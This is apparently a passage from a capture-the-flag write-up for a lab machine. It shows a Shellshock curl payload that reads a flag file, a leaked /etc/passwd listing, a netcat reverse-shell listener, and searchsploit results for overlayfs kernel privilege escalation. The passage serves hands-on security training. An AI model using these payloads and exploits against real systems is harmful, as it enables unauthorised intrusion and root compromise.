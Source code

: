 ```terminal
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
libuuid:x:100:101::/var/lib/libuuid:
syslog:x:101:104::/home/syslog:/bin/false
messagebus:x:102:105::/var/run/dbus:/bin/false
ryan:x:1000:1000:Ubuntu 14.04.1,,,:/home/ryan:/bin/bash
sshd:x:103:65534::/var/run/sshd:/usr/sbin/nologin
```

And we may cat the `user.txt `with this vulnerability.

```terminal
➜  0day curl -A "() { ignored; }; echo Content-Type:text/plain;echo;echo;/bin/cat /home/ryan/user.txt" http://10.10.241.3/cgi-bin/test.cgi

THM{Sh3llSh0ck_*****}
```
Seems like we might able to setup reverse shell against this box.

```terminal
➜  0day nc -lvnp 1337
Connection from 10.10.241.3:48350
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

And we got shell as www-data, try running `sudo -l` with no result, but `uname -a` is exploitable using `"overlayfs Local Privilege Escalation"`

## **<span style='color:#ff5555'>Escalate to root</span>**
***

```terminal
www-data@ubuntu:/usr/lib/cgi-bin$ uname -a
uname -a
Linux ubuntu 3.13.0-32-generic #57-Ubuntu SMP Tue Jul 15 03:51:08 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux
www-data@ubuntu:/usr/lib/cgi-bin$
```

Fire up Searchsploit to check if there is exploit for it.

```terminal
➜  0day searchsploit overlay
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                             |  Path
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Linux Kernel (Ubuntu / Fedora / RedHat) - 'Overlayfs' Local Privilege Escalation (Metasploit)                                                                              | linux/local/40688.rb
Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Local Privilege Escalation                                                                       | linux/local/37292.c
Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Local Privilege Escalation (Access /etc/shadow)                                                  | linux/local/37293.txt
Linux Kernel 4.3.3 (Ubuntu 14.04/15.10) - 'overlayfs' Local Privilege Escalation (1)                                                                                       | linux/local/39166.c
Linux Kernel 4.3.3 - 'overlayfs' Local Privilege Escalation (2)                                                                                                            | linux/local/39230.c
OverlayFS inode Security Checks - 'inode.c' Local Security Bypass                                                                                                          | linux/local/36571.sh
Ubuntu 14.04/15.10 - User Namespace Overlayfs Xattr SetGID Privilege Escalation                                                                                            | linux/local/41762.txt
Ubuntu 15.10 - 'USERNS ' Overlayfs Over Fuse Privilege Escalation                                                                                                          | linux/local/41763.txt
```
